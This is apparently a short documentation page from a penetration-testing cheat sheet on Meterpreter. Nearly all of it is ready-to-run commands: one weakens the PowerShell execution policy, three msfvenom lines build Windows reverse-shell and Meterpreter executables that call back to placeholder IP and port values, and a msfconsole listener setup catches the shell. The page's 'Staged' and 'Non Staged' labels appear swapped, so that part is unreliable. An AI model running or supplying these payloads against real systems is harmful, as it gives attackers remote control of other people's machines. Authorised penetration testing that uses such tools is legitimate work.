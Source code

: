 ```yaml
---
title: Meterpreter
layout: default
parent: General Usage
nav_order: 1
---
```


PowerShell allow ps1:

```powershell
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Unrestricted
```

* Regular Non-Staged

```
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe -o /tmp/shell.exe
```

* Meterpreter Staged

```
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=IP LPORT=PORT -f exe -o /tmp/shell.exe
```

* Meterpreter Non Staged

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=IP LPORT=PORT -f exe -o /tmp/shell.exe
```

To receive the incoming shell (change the set payload to the one you set):

```
msfconsole -q
use multi/handler
set payload windows/x64/meterpreter_reverse_https
set lhost IP
set lport PORT
exploit
```
